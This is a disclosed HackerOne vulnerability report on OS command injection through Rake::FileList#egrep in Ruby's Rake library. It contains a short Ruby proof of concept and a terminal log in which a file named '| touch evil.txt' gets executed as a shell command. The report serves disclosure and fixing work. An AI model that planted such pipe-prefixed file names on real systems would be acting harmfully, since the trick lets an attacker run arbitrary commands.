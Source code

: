 # OS Command Injection via egrep in Rake::FileList

## Report Details
- **Report ID**: 651518
- **URL**: https://hackerone.com/reports/651518
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-07-20T04:16:53.118Z
- **Disclosed**: 2019-08-29T03:12:56.050Z

## Reporter
- **Username**: kyoshida
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
When a file which has command file name of stating with `|` is in `Rake::FileList`, then `egrep` will execute the command.

# How to reproduce

PoC (`poc_rake.rb`) is the following.

```ruby
require 'rake'

list = Rake::FileList.new(Dir.glob('*'))
p list
list.egrep(/something/)
```

Example of executing.

```
% ls -1
Gemfile
Gemfile.lock
poc_rake.rb
vendor
| touch evil.txt
% bundle exec ruby poc_rake.rb
["poc_rake.rb", "Gemfile", "Gemfile.lock", "| touch evil.txt", "vendor"]
poc_rake.rb:6:list.egrep(/something/)
Error while processing 'vendor': Is a directory @ io_fillbuf - fd:7 vendor
% ls -1
Gemfile
Gemfile.lock
evil.txt
poc_rake.rb
vendor
| touch evil.txt
```

`evil.txt` was created.

## Impact

An attacker must deploy a file containing command names in the target environment, assuming that this attack is successful. If that would be a serious problem.

## Attachments
No attachments
